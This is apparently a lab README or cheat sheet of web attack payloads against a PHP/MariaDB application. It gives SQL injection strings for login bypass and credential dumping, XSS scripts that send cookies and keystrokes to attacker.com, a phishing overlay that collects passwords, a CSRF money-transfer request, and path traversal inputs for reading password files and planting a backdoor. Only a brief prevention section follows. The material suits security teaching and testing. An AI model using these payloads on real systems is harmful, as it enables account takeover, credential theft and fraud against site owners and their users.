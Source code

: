 
## 1. SQL INJECTION VECTORS (MariaDB Compatible)

---

### a) **Login Bypass**

**Payload Example 1**

- **Email**: `admin@example.com' OR 1=1 --`
    
- **Password**: anything
    

**Injected Query**:

```sql
SELECT * FROM users WHERE email='' OR 1=1 -- ' AND pass='anything'
```

---
**MariaDB-Specific Variant**

- **Email**: `admin@example.com' #`
    
- **Password**: anything
    

**Injected Query**:

```sql
SELECT * FROM users WHERE email='admin' # ' AND pass='anything'
```

Note: `#` is a valid comment character in MariaDB (like `--` ), and it ignores the rest of the line.

---

### b) **UNION-Based Attack**

**Payload**:

- **Search**: `' UNION SELECT 1, CONCAT(email, ':', pass), 3 FROM users -- `
    

**Injected Query**:

```sql
SELECT id, name, info FROM products WHERE name='' UNION SELECT 1, CONCAT(email, ':', pass), 3 FROM users -- '
```

This would display all users’ credentials in the search results (if column counts and types match).

---

### c) **Blind SQL Injection**

**Payload**:

- **Email**: `admin@example.com' AND (SELECT SUBSTRING(pass,1,1) FROM users WHERE id=1)='a`
    

**Injected Query**:

```sql
SELECT * FROM users 
WHERE email='admin@example.com' AND (SELECT SUBSTRING(pass,1,1) FROM users WHERE id=1)='a'
```

This doesn't reveal errors or results directly, but with repeated guessing, the attacker can infer the password one character at a time.

---

### d) **Time-Based Blind Injection**

**Payload**:

- **Search**: `%' OR IF(1=1,SLEEP(5),0) -- `
    

**Injected Query**:

```sql
SELECT * FROM products WHERE name='%' OR IF(1=1, SLEEP(5), 0) -- '
```

If the server delays 5 seconds, it confirms a successful injection.

---
## 2. XSS Payload Examples

### a) **Cookie Stealer**

```html
<script>
  var i = new Image();
  i.src = "https://attacker.com/log.php?c=" + document.cookie;
</script>
```

---

### b) **Keylogger**

```html
<script>
  document.addEventListener('keypress', function(e) {
    fetch('https://attacker.com/log.php?key=' + e.key);
  });
</script>
```

---

### c) **Phishing Form Overlay**

```html
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white;z-index:999">
  <h2>Session Expired</h2>
  <form action="https://attacker.com/steal.php">
    Email: <input name="email"><br>
    Password: <input type="password" name="password"><br>
    <button>Login Again</button>
  </form>
</div>
```

---
## 3. CSRF Attack Vectors

### a) Hidden Form Method

Create an invisible form that automatically submits, transferring money to the attacker's account.

---

### b) JavaScript `fetch()` Method (IMG Tag Alternative)

This uses `fetch()` to simulate a form submission directly in JavaScript:

```html
<script>
fetch("http://your-target.com/dashboard.php", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded",
  },
  body: "to_id=7&amount=10000000&transfer=Transfer+Money"
});
</script>
```

> **Note:** While `fetch()` doesn't work cross-origin by default (due to CORS), it's still useful for same-origin CSRF or if the target lacks proper protections.

---
## 4. Path Traversal Exploitation

### a) Reading Sensitive Files

Use directory traversal sequences to access files outside the intended path:

```
?path=../../../xampp/passwords.txt
```

This can expose sensitive configuration files, credentials, or other private data if the server doesn’t sanitize the `path` input.

---

### b) Writing to Executable Locations

Abuse file writing features to drop malicious files into web-accessible directories:

```
?backup=1&path=../../../xampp/htdocs/backdoor/
```

This could allow an attacker to:

- Deploy a **web shell** or **backdoor**
    
- Leak sensitive backups
    
- Escalate the attack by executing arbitrary PHP/JS code
    

> ⚠️ Always validate and sanitize file paths on the server side, and never allow user input to define write locations without strict control.

---

## 5. Prevention Techniques

>  For educational purposes — here’s how to fix or mitigate the common vulnerabilities:

---

### a) **SQL Injection**

-  Use **prepared statements** with **parameterized queries**
    
-  Apply strict **input validation** (whitelisting where possible)
    
-  Follow the **principle of least privilege** (minimal DB rights)
    

---

### b) **Cross-Site Scripting (XSS)**

-  **Sanitize input/output** using context-aware escaping
    
-  Implement **Content Security Policy (CSP)**
    
-  Use `HttpOnly` and `Secure` flags for cookies
    

---

### c) **Cross-Site Request Forgery (CSRF)**

-  Add **anti-CSRF tokens** in forms and validate them server-side
    
-  Use `SameSite` attribute for cookies (`SameSite=Strict` or `Lax`)
    
-  Validate the **Referer** or **Origin** header for critical actions
    

---

### d) **Path Traversal**

-  **Validate and sanitize** all user-controlled file paths
    
-  Use **server-side path whitelisting** or mapping
    
-  Enforce **access control** checks for file operations
    

---

### e) **Authentication & Session Management**

-  Implement proper **session validation** and timeouts
    
-  Use strong **password hashing** (e.g., bcrypt, Argon2) with salting
    
-  Apply **account lockout** or throttling to prevent brute-force attacks
    
